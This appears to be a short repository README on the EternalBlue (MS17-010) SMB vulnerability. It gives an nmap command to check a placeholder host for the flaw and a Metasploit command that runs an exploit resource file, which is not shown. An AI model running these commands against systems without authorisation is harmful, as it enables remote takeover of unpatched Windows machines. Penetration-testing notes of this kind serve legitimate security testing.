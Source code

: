 # Eternalblue ms17-010

## Check for vuln with nmap script

nmap -p445 --script smb-vuln-ms17-010 xx.xx.xx.xx

## Run eternalblue with metasploit

msfconsole -r ms17_010_eternalblue.rc
